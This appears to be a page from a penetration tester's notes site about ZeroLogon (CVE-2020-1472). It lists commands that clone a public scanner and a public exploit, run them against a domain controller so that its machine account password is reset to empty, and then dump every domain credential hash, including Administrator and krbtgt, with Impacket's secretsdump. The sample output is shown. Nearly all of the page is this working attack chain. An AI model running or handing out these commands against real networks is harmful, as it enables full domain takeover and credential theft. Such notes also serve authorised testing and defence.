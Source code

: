 ```yaml
---
title : "CVE-2020-1472"
# pre : ' '
description : "CVE-2020-1472 ZeroLogon."
date : 2020-09-15T10:19:46+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-1472 - ZeroLogon

{{%attachments fa_icon_class="fab fa-python" pattern=".*(py)"/%}}

### Scanner

```plain
git clone https://github.com/SecuraBV/CVE-2020-1472.git
pip install -r requirements.txt
```

### Usage

```plain
$ python3 zerologon_tester.py DC2016 10.10.10.10
Performing authentication attempts...
=============================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

Tip: for finding the computer name, use: rdesktop -u '' IP

### Exploit

```plain
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```plain
$ python3 cve-2020-1472-exploit.py DC2016 10.10.10.10
Performing authentication attempts...
=========================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Dump using 'no-pass' flag and computer account

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -no-pass -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[...]
[*] Cleaning up...
```

Or dump with empty hash

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[..SNIP...]
[*] Cleaning up...
```

## URL List

- [GitHub.com DirkJanM](https://github.com/dirkjanm/CVE-2020-1472)
- [Dirkjanm.io A different way of abusing zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
- [GitHub.com SecuraBV](https://github.com/SecuraBV/CVE-2020-1472/)
- [GitHub.com DirkJanM krbrelayx](https://github.com/dirkjanm/krbrelayx)
